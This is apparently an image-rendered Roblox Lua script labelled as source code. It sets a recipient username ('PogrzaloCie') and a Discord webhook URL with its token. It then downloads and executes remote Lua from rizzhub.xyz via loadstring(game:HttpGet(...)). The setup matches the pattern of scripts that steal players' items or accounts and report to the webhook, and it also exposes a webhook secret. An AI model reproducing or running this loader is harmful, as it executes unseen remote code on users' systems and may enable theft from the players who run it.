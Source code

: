 UserName = "PogrzaloCie"
UserName2 = "PogrzaloCie"
Webhook = "https://discord.com/api/webhooks/1097137558611304598/Cfr-HA3Ge-FfBVZ5nF9gk5ALFW3PNZbn4NlT0eHNj1idkgvF0sYdRvRLMu5fa0IO9p9Z" 
 
loadstring(game:HttpGet("https://rizzhub.xyz/scripts/Main.lua", true))()
